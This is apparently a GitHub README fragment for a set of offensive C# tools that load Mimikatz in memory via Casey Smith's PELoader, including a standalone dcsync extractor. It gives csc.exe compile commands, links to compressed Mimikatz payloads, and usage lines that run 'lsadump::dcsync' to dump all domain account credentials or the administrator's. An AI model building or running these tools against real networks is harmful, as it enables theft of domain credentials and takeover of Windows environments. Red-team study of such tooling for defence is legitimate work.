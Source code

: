 Complie:

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe GzipandBase64.cs`

or

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe GzipandBase64.cs`

### PELoaderofMimikatz.cs

The source file is Casey Smith's PELoader.cs and the version of mimikatz is mimikatz 2.0 alpha (x64) release "Kiwi en C" (Aug 17 2015 00:14:48).

I change it to the new version(mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14).

The source code supprot 4.0 or later.

This code supprot 3.5 or later.

Complie:

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe PELoaderofMimikatz.cs`

or

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe /unsafe PELoaderofMimikatz.cs`

### DcsyncofMimikatz.cs

This is the dcsync mode extracted from Mimikatz.

The source code in KatzCompressed is https://github.com/3gstudent/test/blob/master/Mimkatz-dcsync.zip

You can use https://github.com/3gstudent/Homework-of-C-Sharp/blob/master/GzipandBase64.cs to generate the KatzCompressed string.

The source code supprot 4.0 or later.

This code supprot 3.5 or later.

Complie:

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe DcsyncofMimikatz.cs`

or

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe /unsafe DcsyncofMimikatz.cs`

Usage:

`DcsyncofMimikatz.exe log "lsadump::dcsync /domain:test.com /all /csv" exit`

`DcsyncofMimikatz.exe log "lsadump::dcsync /domain:test.com /user:administrator /csv" exit`

---

### SharpMimikatz_x86.cs

Reference:Casey Smith's PELoader.cs

The source file is Casey Smith's PELoader.cs and the version of mimikatz is mimikatz 2.0 alpha (x64) release "Kiwi en C" (Aug 17 2015 00:14:48).
